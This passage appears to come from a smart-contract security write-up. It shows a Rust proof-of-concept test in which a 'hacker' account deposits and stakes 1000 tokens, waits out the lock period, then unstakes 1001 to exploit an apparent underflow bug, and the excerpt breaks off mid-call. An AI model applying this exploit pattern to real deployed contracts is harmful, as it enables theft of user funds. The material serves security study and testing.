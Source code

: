 ### Proof of concept

```rust
    #[test]
    fn runneth_under() {
        let (mut app, contract_addr) = proper_instantiate();

        // Create "hacker"
        let hacker = Addr::unchecked("hacker");

        // Give hacker 1000 tokens
        app = mint_tokens(app, hacker.to_string(), Uint128::from(1000u128));

        // Hacker deposits 1000 tokens
        let msg = ExecuteMsg::Deposit {};
        app.execute_contract(
            hacker.clone(),
            contract_addr.clone(),
            &msg,
            &[coin(1000u128, DENOM)],
        )
        .unwrap();

        // Hacker has 0 tokens left
        let balance = app.wrap().query_balance("hacker", DENOM).unwrap().amount;
        assert_eq!(balance, Uint128::zero());

        // Hacker has 1000 tokens deposited 
        let msg = QueryMsg::GetUser {
            user: "hacker".to_string(),
        };
        let user: UserInfo = app
            .wrap()
            .query_wasm_smart(contract_addr.clone(), &msg)
            .unwrap();
        assert_eq!(user.total_tokens, Uint128::from(1000u128));

        // Hacker stakes 1000 tokens
        let ex_msg = r#"{"stake":{"lock_amount":"1000"}}"#;
        let msg: schemars::_serde_json::Value = schemars::_serde_json::from_str(ex_msg).unwrap();
        app.execute_contract(hacker.clone(), contract_addr.clone(), &msg, &[])
            .unwrap();

        // Verify 1000 tokens were staked
        let msg = QueryMsg::GetUser { 
            user: "hacker".to_string()
        };
        let user_info: UserInfo = app
            .wrap()
            .query_wasm_smart(contract_addr.clone(), &msg)
            .unwrap();
        assert_eq!(user_info.voting_power, 1000u128);
        assert_eq!(user_info.total_tokens, Uint128::from(1000u128));

        // fast forward time
        app.update_block(|block| {
            block.time = block.time.plus_seconds(LOCK_PERIOD);
        });

        // Hacker unstakes 1001
        let ex_msg = r#"{"unstake":{"unlock_amount":"1001"}}"#;
        let msg: schemars::_serde_json::Value = schemars::_serde_json::from_str(ex_msg).unwrap();
        app
```